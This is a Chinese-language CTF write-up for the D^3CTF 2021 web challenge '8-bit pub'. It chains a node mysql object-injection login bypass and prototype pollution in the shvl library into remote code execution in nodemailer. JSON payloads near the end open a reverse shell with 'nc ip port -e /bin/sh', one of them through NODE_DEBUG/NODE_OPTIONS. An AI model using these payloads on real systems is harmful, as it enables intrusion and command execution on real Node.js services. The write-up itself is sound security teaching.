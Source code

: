 # 8-bit pub

> @ D^3CTF 2021 Web 
### 启动
如果需要，启动前请在`web/utils/mail.js`配置smtp服务器以供测试

start: ``docker-compose up -d``

### Write Up
#### 登入admin

通过简单的审计，发现要登入管理员端，需要用户名为admin
定位到数据库的操作代码
![](https://i.imgur.com/ZHOe0pv.png)


注意到这里的查询语句使用了占位符的写法，是没法进行直接的注入的
但是通过阅读node mysql库的文档，可以发现，当传入的变量为Object时，参数会被转化成``` `key` = value ```的格式拼入
那么就可以利用这点构造出`{"username":"admin", "password":{"password": true}}`的参数，这里只要传入对象的key值为表中的password列即可，那么sql语句变为```SELECT * FROM users WHERE username = 'admin' AND password = `password` = true```，也就是说构造出了一个万能密码

#### 原型链污染

登入admin后可以发邮件，通过审计发邮件处的代码，留意到这里使用了一个名为`shvl`的库进行赋值
![](https://i.imgur.com/3fZF5Hk.png)


前段时间这个库爆过原型链污染，在最新的版本中作者已经修复，但是看修复代码可以发现

![](https://i.imgur.com/OpSkDRe.png)


作者的修复仅仅是过滤了`__proto__`属性，我们用`constructor.prototype`仍可进行污染，可以直接污染到Object类

#### RCE
接下来对nodemailer的rce就有两种方法了

首先是较多队伍采用的，控制args变量的方法

通过阅读源码发现，nodemailer里有一处调用系统命令sendmail发送邮件的代码

![](https://i.imgur.com/cNkhgZQ.png)


其args参数依次来自

![](https://i.imgur.com/lawLmZE.png)

![](https://i.imgur.com/ScGah8r.png)


而这里，我们只要对Object.args进行污染，就可以控制到最终执行系统命令的参数

同时，题目中采用的是默认的smtp的transport，要让执行流程进入sendmail命令的逻辑，还需要污染Object.sendmail为true

![](https://i.imgur.com/C48pex1.png)


payload为：
```json
{
  "constructor.prototype.path": "/bin/sh",
  "constructor.prototype.args": [
    "-c",
    "nc ip port -e /bin/sh"
  ],
  "constructor.prototype.sendmail": true
}
```

这里有些队伍没有反弹shell，直接把`/readflag`的输出结果写到/tmp目录下，然后用发邮件附件的方式带出，形如
`{"to":"i@example.com","subject":"flag","attachments":[{"filename":"flag.txt","path":"/tmp/xxxx"}`
这样也比较有趣

另一种做法是安全员研究员posix提出的，对环境变量进行污染，以实现rce的做法:
[https://blog.p6.is/Abusing-Environment-Variables/](https://blog.p6.is/Abusing-Environment-Variables/)

阅读child_process的代码：https://github.com/nodejs/node/blob/master/lib/child_process.js#L502 可以发现，如果我们同时污染`shell`和`env`两个变量，就可以通过一些系统命令的环境变量来rce
比如较为常用的NODE_DEBUG环境变量，pyload为：
```json
{
  "constructor.prototype.env": {
    "NODE_DEBUG": "require('child_process').execSync('nc ip port -e /bin/sh')//",
    "NODE_OPTIONS": "-r /proc/self/environ"
  },
  "constructor.prototype.sendmail": true,
  "constructor.prototype.shell": "/bin/node"
}
```

